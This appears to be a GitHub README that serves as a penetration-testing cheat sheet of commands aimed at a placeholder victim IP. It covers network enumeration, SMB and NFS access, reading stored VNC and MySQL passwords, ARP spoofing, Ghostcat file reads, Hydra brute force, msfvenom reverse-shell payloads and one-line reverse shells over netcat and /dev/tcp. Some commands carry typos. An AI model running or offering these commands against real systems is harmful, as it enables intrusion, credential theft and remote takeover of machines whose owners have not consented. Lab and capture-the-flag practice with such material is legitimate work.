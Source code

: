 [Enumeration](#enumeration)
[Services](#services)
[Resources](#resources)
[Exploits](#exploits)
[Remoteshell](#remote-shell)
[Linux](#linux)



# Enumeration
### Netdiscover
    sudo netdiscover
###  Nslookup
    nslookup netdiscover
      
    nslookup
    set q=ms  |  set q=ns
    URL
### Nmap
    nmap [VictimIP] -p- -Pn -sSCV (-oN [file]) (-p [port])
### Enum4linux
    enum4linux -a [VictimIP]

# Services
### Tor&Proxychains
    sudo service tor start
    sudo netstart -tulpn
    sudo nano /etc/proxychains4.conf
    proxychains firefox google.com
    proxychains curl ifconfig.io
### Netcat
    nc [IP] [port]
        GET /HTTP/1.1
        Host: [IP]

    nc -nvlp [port] (> file)
        cat [file] | nc [IP] [port]
### Curl
    curl [IP:port or URL]
### Ftp
    ftp [victim IP]
### Smb
    smbclient -L \\\\[VictimIP]\\
    
    impacket-smbclient [VictimIP]
        shares
        use [dir]
### Nfc
    showmount -e [VictimIP]
    sudo mount -t nfs [VictimIP]:/ /mnt
### Generate hash for users
    openssl passwd [Password]
### .Deb dpkg
    sudo dpkg -i [file].deb
### Nessus
    sudo servise nessusd start
        https://127.0.0.1:8834/#/
### SSH
    sudo su
    cd ~/root/.ssh
    ssh-keygen -t rsa
    cat id_rsa.pub
    echo ssh-rsa [key] >> authorized_keys
    ssh root@[IP] -o HostKeyAlgoritms=+ssh-rsa -o PubKeyAcceptedKeyTypes=+ssh-rsa
### VNC
    cat vnc.log
    cat ~/.vnc/passwd
    cat passwd | base64
    echo [base64code] | base64 -d > passwd
    vncviewer -passwd passwd [VictimIP]
### Mysql
    mysql -h [VictimIP] -u [root] --skip-ssl
        show databases;
        use [tikiwiki];
        show tables;
        select [*, login, password] from [tiki_users];

# Resources
### searchsploit
    searchsploit [vulnerable]
    cd [path]
    serchsploit -m [exploit.(py)]
    nano [file]
### msfvenom
    msfvenom -p [java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[port] -f war -o rev.war]

# Exploits
    1.sudo nano /proc/sys/net/ipv4/ip_forward    (0->1)
      sudo arpspoof -t [VictimIP] [RouterIP]
    2.john --wordlist=/usr/share/wordlists/rockyou.txt file
        (sudo gunzip /usr/share/wordlists/rockyou.txt.gz)
    3.python2 distccd.py -t [VictimIP] -p [port] -c "[code]"
### Ghostcat
    python2 [ghostcat.py] [VictimIP] -f ../../../../etc/tomcat5.5/tomcat-users.xml
### Hydra
    hydra -l [user] -P [/usr/share/wordlists/rockyou.txt] [ftp://[VictimIP]]

# Remote shell
    1.python -c 'import pty; pty.spawn("/bin/bash")'
    2.nc [IP] [port] -e /bin/bash
    3.bash -c "bash -i >& /dev/tcp/[IP]/[port] 0>&1"

# Linux
### Processes
    ps aux
    [kill] [id]
    jobs